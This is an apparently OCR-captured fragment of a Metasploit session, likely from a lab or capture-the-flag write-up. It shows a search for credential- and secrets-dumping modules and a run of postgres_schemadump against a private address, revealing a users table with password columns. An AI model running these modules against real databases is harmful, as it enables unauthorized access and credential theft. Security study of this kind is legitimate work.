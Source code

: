 Matching Modules
================

   #  Name                                            Disclosure Date  Rank    Check  Description
   -  ----                                            ---------------  ----    -----  -----------
   0  auxiliary/admin/http/manageengine_pmp_privesc   2014-11-08       normal  Yes    ManageEngine Password Manager SQLAdvancedALSearchResult.cc Pro SQL Injection
   1  auxiliary/analyze/crack_databases                                normal  No     Password Cracker: Databases
   2  auxiliary/scanner/postgres/postgres_hashdump                     normal  No     Postgres Password Hashdump
   3  auxiliary/scanner/postgres/postgres_schemadump                   normal  No     Postgres Schema Dump
   4  post/linux/gather/vcenter_secrets_dump          2022-04-15       normal  No     VMware vCenter Secrets Dump


Interact with a module by name or index. For example info 4, use 4 or use post/linux/gather/vcenter_secrets_dump                                                  

msf6 exploit(multi/php/ignition_laravel_debug_rce) > use 3
msf6 auxiliary(scanner/postgres/postgres_schemadump) > 
```

```
msf6 auxiliary(scanner/postgres/postgres_schemadump) > set rhosts 172.28.101.51
rhosts => 172.28.101.51
msf6 auxiliary(scanner/postgres/postgres_schemadump) > exploit 

[*] 172.28.101.51:5432 - Found databases: postgres, template1, template0. Ignoring template1, template0.
[+] Postgres SQL Server Schema 
 Host: 172.28.101.51 
 Port: 5432 
 ====================

---
- DBName: postgres
  Tables:
  - TableName: users_id_seq
    Columns:
    - ColumnName: last_value
      ColumnType: int8
      ColumnLength: '8'
    - ColumnName: log_cnt
      ColumnType: int8
      ColumnLength: '8'
    - ColumnName: is_called
      ColumnType: bool
      ColumnLength: '1'
  - TableName: users
    Columns:
    - ColumnName: id
      ColumnType: int4
      ColumnLength: '4'
    - ColumnName: username
      ColumnType: varchar
      ColumnLength: "-1"
    - ColumnName: password
      ColumnType: varchar
      ColumnLength: "-1"
    - ColumnName: created_at
      ColumnType: timestamp
      ColumnLength: '8'